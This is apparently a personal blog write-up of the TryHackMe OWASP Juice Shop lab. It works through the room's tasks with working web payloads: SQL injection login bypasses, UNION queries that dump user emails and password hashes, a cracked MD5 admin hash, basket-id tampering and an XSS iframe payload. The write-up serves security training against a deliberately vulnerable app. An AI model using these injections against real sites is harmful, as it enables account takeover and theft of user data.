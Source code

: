 ```yaml
---
title: Try Hack Me - OWASP Juice Shop
layout: post
category: writeup
---
```


# OWASP Juice Shop
The [OWASP Juice Shop](https://tryhackme.com/room/juiceshop) room on [Try Hack Me](https://tryhackme.com/) is a good room to practice basic web app exploits.  Also take a look at the [Learn Burp Suite](https://tryhackme.com/room/learnburp) room if your a total beginner at web app pentesting (like myself when completing this room!)
<br/>

Before we start working through the hands on tasks, take a look at the scoreboard located at [roomIP]/#/score-board.
<br/>

## Task 4 - Injection
The first challenge presented to us is leveraging a SQL injection to log in as the admin user. The first step in manual SQLi is trying to break it.
<br/>

<img src="../assets/img/thm/juiceshop/sqli1.png">
<br/>

While this doesn't get us logged in, it shows that that we can break, and therefore manipulate, the sql query. We also solve the challenge *Error Handling: (Provoke an error that is not very gracefully handled.)*
<br/>

<img src="../assets/img/thm/juiceshop/sqli2.png">
<br/>

This is a very basic SQLi, that will get us logged in as the admin user. Password here can be anything.
<br/>

## Task 5 - Broken Authentication
1. Reset Jim's password using the forgotten password mechanism - what was the answer to the secret question?
<br/>

Looking at our admin account, we see the email syntax is *user@juice-sh.op*.  If we log out of admin and go to the forgot password page, the email *jim@juice-sh.op* let's us see the security question for Jims account.
<br/>

```
Your eldest siblings middlename?
```
<br/>

Actually deciphering the answer to this question is trickey and requires searching through the applications for hints left by Jim.

I managed to log in as Jim with a SQLi:
```
jim@juice-sh.op' /*
```
However I had to look up the answer to the security question. (I have never seen Star Trek)
<br/>

2. What is the administrator password?
<br/>

For this question, it is probably easier to guess until youn get it, or use a a very basic wordlist with burp intruder.  However, I am an idiot and couldn't guess it, and intruder as **super** limited unless you have a license for the pro version of burp. (Note to learn ZAP)
<br/>

While mucking around on the site, you will notice rest api calls being made.  One such endpoint is
```
http://10.10.118.46/rest/product/search?q=test
```
<img src="../assets/img/thm/juiceshop/restapi1.png">
<br/>

You can perform a sqli here with the syntax
```
http://10.10.118.46/rest/product/search?q=test')) union select * from users;--
```
<img src="../assets/img/thm/juiceshop/sqli3.png">
<br/>

We can see from normal use of the endpoint that the returned table has 8 collumns ('id', 'name', 'description', 'price', 'image', 'createdAt', 'updatedAt', 'deletedAt')
<br/>

```
http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', 'createdAt', 'updatedAt', 'deletedAt--
```
<img src="../assets/img/thm/juiceshop/restapi2.png">
<br/>

From here we can dump whatever we want from the database presuming we know the table and collumn names.  From the previous test, we at least know that the users table exists.
```
http://10.10.118.46/rest/product/search?q=test')) union select 'id', 'name', 'description', 'price', 'image', id, email, password from users--
```
<img src="../assets/img/thm/juiceshop/userdump.png">
<br/>

So our admin password hash is:
```
0192023a7bbd73250516f069df18b500
```
See below for the wordlist used if your having trouble cracking it. (or try crackstation)
<img src="../assets/img/thm/juiceshop/hashcatadmin.png">
<br/>

## BONUS

Seeing MD5 (unsalted!) for password hashing is strange.  If you look on the scoreboard you can find a challenge called wierd crypto that refferences notifying the site admins of this security flaw. 
<img src="../assets/img/thm/juiceshop/weirdcrypto.png">
<br/>

We can also complete the Devestating Review challenge by giving them a zero start review in this same comment submission.  Just intercept with burp and alter the rating to be 0.
<br/>

## Task 6 - Sensitive Data Exposure
1. 	
Access a confidential document and enter the name of the first file with the extension ".md"
<br/>

If you make an order on the site, the order confirmation is shown in your browser as a pdf.  It is being served from a /ftp/ directory.  We can navigate here and discover local files stored on the server in this directory.

<img src="../assets/img/thm/juiceshop/ftplfi.png">
<br/>

## Task 7 - Broken Access Control
1. Access the administration section of the store - What is the name of the page?
<br/>

Like the hint says, search the js code for "Admin".

2. Access someone else's basket    
<br/>

Change the basket id (in session storage) ising developer tools.
<img src="../assets/img/thm/juiceshop/bid.png">
<br/>

3. 	Get rid of all 5 star customer feedback
<br/>

Use the admin page from question 1.  The admin gave his own site a 5-star review, delete to complete the challenge.
<img src="../assets/img/thm/juiceshop/5star.png">
<br/>

## Task 8 - Cross Site Scripting (XSS)
1. Carry out reflected XSS using Tracking Orders.
<br/>

Payload is
```
<iframe src="javascript:alert(`xss`)">
```
<img src="../assets/img/thm/juiceshop/reflectedXSS.png">
<br/>

2. Carry out XSS using the Search field?
<br/>

The same exact method can be used in the search field to perform reflected xss.